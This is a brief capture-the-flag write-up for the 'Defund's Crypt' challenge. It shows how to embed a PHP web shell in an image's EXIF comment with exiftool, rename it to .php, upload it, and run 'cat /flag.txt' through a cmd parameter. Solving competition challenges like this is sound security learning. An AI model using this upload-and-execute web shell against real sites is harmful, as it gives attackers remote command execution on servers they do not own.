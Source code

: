 # Defund's Crypt

### How to get the flag?
* Take a sample image
* Use exiftool to embed php code into an image
    ```
    exiftool -Comment='<?php echo system($_GET["cmd"]); ?>' co.jpg
    ```
* Rename the file from `co.jpg` to `co.jpg.php`
* Upload the image
* Cat the flag by giving `cat /flag.txt` as cmd GET parameter to the image.
    ```
    view-source:https://crypt.2020.chall.actf.co/memories/e444629efe5d3d0214bc3c7b2e248fb4c5d7dae3.jpg.php?cmd=cat /flag.txt
    ```
    <img src="Screenshot.png" />